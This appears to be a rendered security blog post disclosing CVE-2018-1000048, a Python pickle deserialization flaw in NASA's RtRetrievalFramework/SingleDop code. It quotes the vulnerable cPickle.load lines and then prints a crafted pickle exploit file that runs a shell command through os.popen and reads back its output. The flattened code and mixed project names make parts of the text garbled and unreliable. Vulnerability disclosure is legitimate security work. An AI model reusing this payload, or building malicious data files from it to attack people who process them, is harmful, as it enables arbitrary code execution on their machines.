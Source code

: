 ```yaml
---
layout: post
title: CVE-2018-1000048
subtitle: Remote code execution in Nasa satellites and systems
image: /img/nasa_insignia_300.jpg
gh-repo: cr1at0rs/cr1at0rs.github.io
gh-badge:
  - star
  - fork
  - follow
published: true
---
```

### RtRetrievalFramework

![RT Retrieval Framework]({{site.baseurl}}/img/Screen Shot 2018-02-27 at 11.24.01 AM.png)

RtRetrievalFramework

or fname in flist: 14 with open(fname) as f: 15 t = cPickle.load(f) 16 xco2_a = t["XCO2_a"] … 23 with open("my_cov.pkl") as f: 24 dist_cov = cPickle.load(f) 25

I would like to report a remote code execution potential vulnerability in Singledop. Pickle module enables binary serialization and loading of Python datatypes and any user supplied sample file can lead to remote code execution on any researches machine processing a serialized file.


### Attack binary a valid DOP file:

mona@mona-virtual-machine:~/Downloads/SingleDop$ cat t_file

Exploit file:

 cos popen (S'uname -a' tRp100 0c__builtin__ getattr (c__builtin__ file S'read' tRp101 0c__builtin__ apply (g101 (g100 I1000 ltRp102 0c__builtin__ getattr (c__builtin__ file S'close' tRp103 0c__builtin__ apply (g103 (g100 ltRp104 0g102 .


